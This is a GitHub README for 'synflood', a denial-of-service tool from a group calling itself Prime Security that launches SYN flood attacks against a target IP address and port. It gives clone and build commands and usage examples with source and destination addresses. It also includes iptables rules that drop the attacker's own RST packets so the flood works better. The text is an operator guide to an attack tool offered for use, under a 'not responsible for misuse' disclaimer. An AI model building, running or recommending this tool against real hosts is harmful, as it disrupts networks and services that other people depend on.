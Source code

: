# This Script was made by Prime Security
# Please enjoy and remember we are not 
# responsible for any misuse or illigal
# use of this tool
#
#
# SynFlood
Start a SYN flood attack to an ip address.

## Requirements
- libnet1. `libnet1-dev` under Debian.
- Root access for sending a packet.
- Its recommended to block all RST packets from the source host on the source host.

		iptables -I OUTPUT -p tcp --dport 80 --tcp-flags RST RST -j DROP
		iptables -I OUTPUT -p tcp --dport 80 --tcp-flags RST ACK -j DROP

## Build

1. Clone:
	
		git clone https://github.com/PrimeSec420/synflood.git

2. In `synflood` directory, make:
	
		mkdir -p build && cd build && cmake -DCMAKE_BUILD_TYPE=Release .. && make && make test

3. Done.

## Usage

	./synflood SRC DST DPT [CONNECTIONS]

- `SRC`: Source IP address.
- `DST`: Destination IP address.
- `DPT`: Destination port.
- `CONNECTIONS`: Number of connections.

Examples:

	./synflood 192.168.241.31 192.168.1.3 80
	./synflood 192.168.241.31 192.168.1.3 80 1000

## Links
- [PrimeSecurity Repository](https://www.github.com/PrimeSec420)

## License
Copyright (C) 2019 Prime Security

This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details. You should have received a copy of the GNU General Public License along with this program. If not, see <http://www.gnu.org/licenses/>.
